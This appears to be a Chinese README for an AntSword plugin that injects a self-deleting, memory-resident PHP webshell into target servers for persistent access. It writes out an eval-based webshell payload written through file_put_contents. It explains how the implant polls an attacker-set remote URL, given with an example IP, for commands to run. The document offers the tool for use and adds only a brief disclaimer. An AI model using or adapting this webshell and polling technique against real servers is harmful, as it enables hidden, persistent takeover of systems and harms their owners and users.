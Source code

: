 # inject_und3ad

中国蚁剑（Antsword）插件

向目标服务器植入不死php webshell

## 演示

* 权限维持

![inject_undead_webshell.png](./img/inject_undead_webshell.png)

点击左上角远程文件按钮，输入远程控制文件地址以及轮询时间（以秒为单位），点击确定即可（分隔符为###）

For example : http://192.168.134.128/1.txt###60   每60秒轮询一次http://192.168.134.128/1.txt里的内容

文件内容类似于 `file_put_contents('./1.php','<?php @eval($_POST[ph4ntom]); ?>')`;  (密码可自定义，路径也可自定义，此文件内容旨在每隔一段时间写入一个小马)

上述旨在利用php特性植入不死webshell，在执行完成后，此webshell会基于用户设置的轮询时间向用户设置的远程文件地址发送请求，用户只需在远程地址的txt文档中输入想要执行的命令即可
可。

此webshell在执行后会自身删除，驻留内存之中，无文件残留

清除办法包括重启web服务等

用户在植入不死webshell后，远程控制文件地址将会被记录，在第二次打开此界面时会在下方"历史远程控制文件"中看见

## 注意事项

  此插件仅支持php环境
  
  在远程文件上如果不打算执行命令，请在远程文件中写入一个空格，否则此webshell会退出。
  
  使用者不得用于非法用途
  
## Todo

  若发现问题，请与我联系并改进~
 

